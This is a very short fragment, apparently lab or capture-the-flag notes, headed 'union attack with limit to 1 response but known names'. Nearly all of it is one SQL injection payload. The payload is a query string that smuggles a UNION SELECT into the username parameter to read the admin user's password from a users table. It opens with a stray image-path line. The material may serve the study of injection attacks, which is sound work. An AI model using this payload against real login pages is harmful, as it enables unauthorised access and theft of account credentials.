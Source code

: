 union attack with limit to 1 response but known names

`?username=asdf' union select password from users where username='admin' limit 0,1-- -&password=a`